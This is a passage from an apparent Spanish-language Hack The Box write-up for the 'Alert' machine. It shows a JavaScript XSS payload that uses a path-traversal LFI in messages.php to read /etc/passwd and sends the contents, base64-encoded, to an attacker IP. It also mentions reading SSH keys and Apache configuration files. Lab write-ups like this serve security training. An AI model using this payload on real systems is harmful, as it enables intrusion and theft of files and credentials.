A continuación, decodificaremos el contenido recibido en la petición de la **Dirección IP** de la máquina víctima, y veremos un hipervínculo el cual se encarga de acceder a un archivo de la máquina víctima mediante el parámetro `file`.


![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323192559.png>)

Modificaremos nuestro archivo `pwned.js` para poder visualizar el contenido de la siguiente página, `http://alert.htb/messages.php?file=../../../../etc/passwd`.

```js
let req = new XMLHttpRequest();
req.onload=function(){let img = new Image(); img.src="http://10.10.16.51/?content="+btoa(this.responseText)}
req.open("GET", "http://alert.htb/messages.php?file=../../../../etc/passwd")
req.send()
```

Tras enviar el enlace al usuario administrador, veremos que efectivamente se produce un **LFI** , lo que nos permitirá ver el contenido de `/etc/passwd` de la máquina víctima.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323193003.png>)

>[!INFO]
>En este punto, podríamos intentar leer las claves `id_rsa` de los usuarios **albert** y **david**, pero lo intentaríamos sin éxito.

Como recordamos, se estaba usando **apache2** como servidor **HTTP**, por lo que intentaremos leer su archivo de configuración (`/etc/apache2/sites-available/000-default.conf`). 

Como podemos ver, encontraremos un subdominio (`statistics.alert.htb`), en el cual se está utilizando una autenticación de tipo **Basic**.
